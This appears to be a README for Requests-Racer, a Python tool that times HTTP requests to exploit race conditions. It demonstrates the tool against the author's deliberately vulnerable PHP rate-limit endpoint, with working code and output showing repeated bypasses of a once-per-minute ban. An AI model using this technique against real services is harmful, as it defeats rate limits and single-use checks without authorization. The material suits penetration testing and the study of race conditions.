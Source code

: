 # The Problem

Suppose you have an endpoint vulnerable to a race condition. For example, consider this endpoint that you are not supposed to be able to access more often than once per minute:

```php
<?php
$now = microtime(true);
$ban_time = (float) file_get_contents('./race.ban');

echo "start: $now\n";

if ($now <= $ban_time) {
    die("you're banned\n");
}

usleep(100000); // do some processing for 100ms
echo "success\n";

file_put_contents('./race.ban', microtime(true) + 60); // ban for 1 minute
```

How do you quickly build a PoC for this?

# Python-Requests: absolutely useless

You might try using Requests, but that will perform the calls in series, so their execution will not overlap at all:

```python
>>> import requests
>>> res = [requests.get('https://aleksejs.scripts.mit.edu/race.php') for _ in range(3)]
>>> for req in res: print(req.text)
... 
start: 1562013897.9938
success

start: 1562013898.914
you're banned

start: 1562013899.9254
you're banned

```

# cURL: not great, not terrible

You might try running mutiple instances of cURL in parallel, and that's a little better:

```
aleksejs@aleksejs-T440s:~$ curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php \
                         & curl https://aleksejs.scripts.mit.edu/race.php
[1] 25671
[2] 25672
[3] 25673
[4] 25674
start: 1562015106.736
start: 1562015106.78
success
start: 1562015106.8535
you're banned
success
start: 1562015106.8786
start: 1562015106.8795
you're banned
you're banned
[1]   Done                    curl https://aleksejs.scripts.mit.edu/race.php
[2]   Done                    curl https://aleksejs.scripts.mit.edu/race.php
[3]-  Done                    curl https://aleksejs.scripts.mit.edu/race.php
[4]+  Done                    curl https://aleksejs.scripts.mit.edu/race.php
```

We've triggered the race once, but the rest of the requests arrived too late. And if you need to send large payloads of different sizes, you're going to have an even worse time:

```
aleksejs@aleksejs-T440s:~$ curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/10kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/100kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes" \
                         & curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes"
[1] 25721
[2] 25722
[3] 25723
[4] 25724
start: 1562015251.716
start: 1562015251.7541
success
success
start: 1562015252.1507
you're banned
start: 1562015253.7403
you're banned
start: 1562015253.9519
you're banned
[1]   Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1kbytes"
[2]   Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/10kbytes"
[3]-  Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/100kbytes"
[4]+  Done                    curl https://aleksejs.scripts.mit.edu/race.php -d "@/tmp/1000kbytes"

```

Those last three requests had no chance of succeeding.

Plus the output has all of this useless garbage in it and the outputs from the different requests are basically in a random order and interleaved. If you need to generate the requests dynamically, have fun writing that bash script, and if you want to process the output in any way, well, I don't envy you.

# The real solution

Running cURL in parallel synchronizes the time when the three requests will be *started*. But what you actually want to synchronize is the time when they *are sent completely* (and the server begins processing them). Because of network latency, synchronizing the former does not do a good job of synchronizing the latter, especially if your request payloads are large or differently-sized.

The way to synchronize the time when the request is done being sent is to first send most of the request in a mostly completely unsynchronized fashion, then synchronize the moment when you begin sending the last byte of each request.

Requests-Racer does this for you, while retaining the Requests API that you know and love:

```python
from synchronized_session import SynchronizedSession

NUM_ATTEMPTS = 10

s = SynchronizedSession()

responses = [
    s.get('http://aleksejs.scripts.mit.edu/race.php') for _ in range(NUM_ATTEMPTS)
]

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562107013.0464 1562107013.0501 1562107013.0631 1562107013.0755 1562107013.0786 1562107013.0718 1562107013.0651 1562107013.0701 1562107013.0649 1562107013.0817
# outcomes: success success success success success success success success success success
```

```python
import time
from synchronized_session import SynchronizedSession

s = SynchronizedSession()

responses = [
    s.post(
    	'http://aleksejs.scripts.mit.edu/race.php',
    	files={'a': open('/tmp/{}kbytes'.format(n), 'rb')}
    )
    for n in [1, 1, 10, 10, 100, 100, 1000, 1000, 1000, 1000]
]

s.finish_all()

print('times:', *[resp.text.split()[1] for resp in responses])
print('outcomes:', *[resp.text.split()[-1] for resp in responses])

# times: 1562108650.5056 1562108650.6038 1562108650.604 1562108650.6038 1562108650.6038 1562108650.605 1562108650.6054 1562108650.6045 1562108650.6044 1562108650.6046
# outcomes: success success success success success success success success success success
```

The requests are all processed by the backend within less than *100ms* of each other, even when they have massively different sizes.